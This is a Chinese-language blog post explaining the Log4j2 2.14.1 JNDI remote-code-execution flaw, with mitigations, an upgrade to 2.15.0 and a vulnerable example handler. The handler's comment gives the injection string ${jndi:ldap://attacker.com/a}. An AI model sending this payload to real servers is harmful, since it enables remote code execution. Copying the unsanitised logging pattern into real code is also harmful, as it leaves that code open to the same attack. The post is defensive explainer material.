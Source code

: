 

长话短说吧。

相信大家已经被 Log4j2 的重大漏洞刷屏了，估计有不少小伙伴此时此刻已经累趴下了。很不幸，我的小老弟小二的 Spring Boot 项目中恰好用的就是 Log4j2，版本特喵的还是 2.14.1，在这次漏洞波及的版本范围之内。

第一时间从网上得知这个漏洞的消息后，小二吓尿了。赶紧跑过来问老王怎么解决。

老王先是给小二提供了一些临时性的建议，比如说：

```
JVM 参数添加 -Dlog4j2.formatMsgNoLookups=true
log4j2.formatMsgNoLookups=True
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
```

并且老王也在时刻的关注着 Log4j2 的官网和 Spring Boot GitHub 仓库的最新消息。

Java 后端开发的小伙伴应该都知道，Log4j、SLF4J、Logback 这 3 个日志组件是一个爹——Ceki Gulcu，但 Log4j 2 却是例外，它是 Apache 基金会的产品。

所以这波超级高危漏洞的锅必须得由 Apache 来背。并且波及范围非常广，已知受影响的应用程序和组件有：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

并且只要是在 Log4j 2.x <= 2.14.1 之间的版本，都将受到影响——注定被载入史册的一波 bug 啊。

目前，Log4j2 的官网已经发布了 Log4j2 2.15.0 正式版，来解决此次漏洞。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/images/shigu/log4j2-01.png)

那随着 Log4j2 2.15.0 正式版的发布，Spring Boot 的 GitHub 仓库提的这些关于 Log4j2 的 issue 都已经处于关闭状态了。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/images/shigu/log4j2-02.png)

看到这些消息后，老王紧张的情绪一下子就缓解了下来，就像吃了一颗定心丸，赶紧去通知小二不用再提心吊胆了，直接一行代码搞定。

```
<properties>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
```

详情可参照 Spring Boot 官方这篇博客：

>https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot

Gradle 构建的项目也有解决方案。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/images/shigu/log4j2-03.png)

问题是解决了，不过老王没闲着。他从 Log4j2 官网公布的最新消息中琢磨出，本次远程代码执行漏洞正是由于组件存在 Java JNDI 注入漏洞：**当程序将用户输入的数据记录到日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码**。

那肯定会有小伙伴在好奇 JNDI 是什么东东？来看一下维基百科的解释。

>Java命名和目录接口（Java Naming and Directory Interface，缩写JNDI），是Java的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

利用下面这段代码，攻击者可以通过JNDI来执行LDAP协议来注入一些非法的可执行代码。

```java
public class VulnerableLog4jExampleHandler implements HttpHandler {
    static Logger log = Logger.getLogger(log4jExample.class.getName());
    /**
     * A simple HTTP endpoint that reads the request's User Agent and logs it back.
     *
     * This is basically pseudo-code to explain the vulnerability, and not a full example.
     *
     * @param he HTTP Request Object
     */
    public void handle(HttpExchange he) throws IOException {
        String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
        log.info("Request User Agent:" + userAgent);
        String response = "<h1>Hello There, " + userAgent + "!</h1>";
        he.sendResponseHeaders(200, response.length());
        OutputStream os = he.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }
}
```

具体的攻击手段可以参考这里：

>https://github.com/apache/pulsar/issues/13232

下图是程序猿阿朗画的简单的攻击链路步骤图。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/images/shigu/log4j2-04.png)

感兴趣的小伙伴可以在本地复现一下，但**千万不要不当利用**哦！

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/images/shigu/log4j2-05.png)

再次提醒大家一下，排查自己的项目是否引入了 Apache log4j-core Jar 包。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/images/shigu/log4j2-06.png)

如果存在依赖引入，且在受影响版本范围内，请升级到 Apache Log4j2  2.15.0 版本，目前已经 release。



